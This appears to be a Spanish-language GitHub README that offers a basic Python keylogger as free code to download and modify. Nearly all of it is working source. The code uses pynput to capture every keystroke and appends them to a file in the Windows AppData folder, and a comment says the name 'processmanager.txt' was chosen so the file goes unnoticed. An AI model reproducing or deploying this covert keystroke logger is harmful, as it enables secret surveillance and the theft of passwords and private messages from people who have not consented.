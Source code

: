 # Keylogger
**- Aqui vas a poder descargar un Keylogger Básico, siéntete libre de modificar lo que quieras a tu gusto es código libre!**

**- Este programa te permite registrar todas las entradas del teclado de un ordenador, eres libre de modificarlo a tu gusto.**


# Code

```python
# Importamos los modulos que usaremos

import os
import pynput
from pynput.keyboard import Listener 


keys = []
count = 0

# El archivo se crea en la carpeta User/Appdata/Roaming
path = os.environ ['appdata'] + '\\processmanager.txt' # Elegimos ruta donde guardar el txt + ponemos un nombre que pase desapercibido (Windows)


def on_press(key):
    global keys, count

    keys.append(key)
    count +=1

    if count >= 1:
        count = 0
        write_file(keys)
        keys = []

def write_file(keys):
    with open(path, 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            
            if k.find('backspace') > 0:
                f.write(' Backspace ')

            elif k.find('enter') > 0:
                f.write('\n')
                
            elif k.find('shift') > 0:
                f.write(' Shift ')
            
            elif k.find ('space') > 0:
                f.write(' ')

            elif k.find('caps_lock') > 0:
                f.write(' caps_lock ')

            elif k.find('Key'):
                f.write(k)


with Listener(on_press=on_press) as Listener:
    Listener.join()


```
